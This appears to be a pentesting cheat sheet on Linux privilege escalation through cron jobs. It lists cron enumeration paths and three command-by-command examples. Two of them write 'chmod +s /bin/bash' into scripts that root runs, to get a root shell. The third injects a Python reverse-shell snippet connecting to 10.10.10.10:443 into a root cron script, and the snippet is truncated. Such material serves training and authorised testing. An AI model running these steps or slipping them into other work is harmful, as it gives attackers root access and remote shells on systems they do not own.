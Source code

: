 # Cron Tabs & Scheduled Tasks

Cron jobs is a time-based job scheduler in Unix-like computer operating systems. Users that set up and maintain software environments use cron to schedule jobs to run periodically at fixed times, dates, or intervals

Enumeration

```
crontab -l
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
```
Example 1

Privilege Escalation via Nonexistent File Overwrite

```
cat /etc/crontab
Output Example: * * * * * root systemupdate.sh
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
Wait a while
/bin/bash -p
id && whoami
```

Example 2

Privilege Escalation via Root Executable Bash Script

```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/network-test.sh
echo "chmod +s /bin/bash" >> /usr/bin/local/network-test.sh
Wait a while
id && whomai
```

Example 3

Privilege Escalation via Root Executable Python Script Overwrite

Target

```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.10",443)); 
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
```